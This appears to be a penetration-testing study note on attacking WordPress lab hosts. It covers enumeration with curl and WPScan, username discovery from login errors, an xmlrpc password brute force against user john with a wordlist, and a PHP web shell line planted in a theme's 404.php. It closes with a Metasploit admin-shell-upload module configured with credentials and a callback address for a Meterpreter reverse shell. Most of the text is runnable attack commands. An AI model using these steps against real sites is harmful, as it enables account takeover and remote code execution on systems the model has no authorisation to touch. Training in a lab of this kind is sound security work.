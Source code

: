 # Wordpress Attacks

### Discovery/Footprinting

* Look into /robots.txt

```shell-session
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

* presence of the `/wp-admin` and `/wp-content` directories

### Enumeration

```shell-session
curl -s https://blog.inlanefreight.local | grep WordPress
```

```shell-session
<meta name="generator" content="WordPress 5.8" /
```

* themes

```shell-session
curl -s https://wehost.co.in/ | grep themes
```

* plugins

```shell-session
curl -s https://wehost.co.in/ | grep plugins
```

#### Enumerating Users

* login page can be found at `/wp-login.php`.
* A valid username and an invalid password results in the following message:
* ![Pasted image 20240815220135.png](app://7f05fcb686c7f91fc7f4865d993fb630b4f2/E:/NATHANIEL%20DATA/Personal/OneDrive/obsidian/Alex/Alex/09-Attachments/Pasted%20image%2020240815220135.png?1723739495261)
* an invalid username returns that the user was not found.
* ![Pasted image 20240815220145.png](app://7f05fcb686c7f91fc7f4865d993fb630b4f2/E:/NATHANIEL%20DATA/Personal/OneDrive/obsidian/Alex/Alex/09-Attachments/Pasted%20image%2020240815220145.png?1723739505568)

### WPScan

```shell-session
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

```shell-session
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

### Attacking WordPress

#### Login Bruteforce

* The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`.
  * The `xmlrpc` method is preferred as it’s faster.

```shell-session
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution

```php
system($_GET[0]);
```

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

```shell-session
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

#### PHP Meterpreter shell

```shell-session
use exploit/unix/webapp/wp_admin_shell_upload 
```

```shell-session
set rhosts blog.inlanefreight.local
set username john
set password firebird1
set lhost 10.10.14.15
set rhost 10.129.42.195
set VHOST blog.inlanefreight.local
```

```shell-session
 show options 
```

```shell-session
exploit
```
